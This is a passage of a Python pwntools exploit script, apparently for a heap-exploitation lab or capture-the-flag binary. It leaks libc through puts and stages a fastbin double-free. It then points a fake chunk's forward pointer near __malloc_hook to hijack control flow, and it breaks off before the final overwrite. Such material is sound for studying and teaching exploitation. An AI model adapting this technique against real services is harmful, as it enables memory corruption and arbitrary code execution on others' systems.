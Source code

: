 ```python
    io.send(b'2')
    io.sendafter(b'index: ', str(index).encode())
    io.recvuntil(b'> ')

def target():
    io.send(b'3')
    io.recvuntil(b'> ')

def quit():
    io.send(b'4')

    
    
def start():
    if args.GDB:
        return gdb.debug(elf.path, env={"LD_PRELOAD": libc.path},gdbscript=gs)
    elif args.REMOTE:
        return remote('', )
    else:
        return process(elf.path)



io = start()

puts, heap = handle()
libc.address = puts - libc.sym['puts']
info("libc base: " + hex(libc.address))
io.timeout = 0.1

#=====================================================================================
# Ignore the "age" field.
age = 0x71
# Ignore the "username" field.
username = p64(0) + p64(0x1234)

info_user(age, username)

# Request two chunks with any size (chunks A & C) and one chunk with size 0x70.
# The most-significant byte of the _IO_wide_data_0 vtable pointer (0x7f) is used later as a size field.
# Overflow pointers to chunk_A & chunk_C with the address of our fake chunk.
# Chunk_B is used to bypass the fastbins double-free mitigation.
chunk_A = malloc(0x18, b"A"*8, b"A"*8 + p64(elf.sym['user'] + 0x10))
chunk_B = malloc(0x68, b"B"*8, b"B"*8)
chunk_C = malloc(0x18, b"C"*8, b"C"*8 + p64(elf.sym['user'] + 0x10))

# Coerce a double-free by freeing chunk_A, then chunk_B, then chunk_C.
# This way the fake chunk is not at the head of the 0x70 fastbin when it is freed for the second time,
# bypassing the fastbins double-free mitigation.
free(chunk_A) # Frees the fake chunk.
free(chunk_B)
free(chunk_C) # Double-frees the fake chunk.

# The next request for a 0x70-sized chunk will be serviced by the fake chunk.
# Request it, then overwrite its fastbin fd, pointing it near the the malloc hook,
# specifically where the 0x7f byte of the _IO_wide_data_0 vtable pointer will form the
# least-significant byte of a size field.
malloc(0x68, p64(libc.sym['__malloc_hook'] - 0x23), b"D"*8)

# Make two more requests for 0x70-sized chunks. The fake chunk, then chunk_B are allocated to
# service these requests.
```
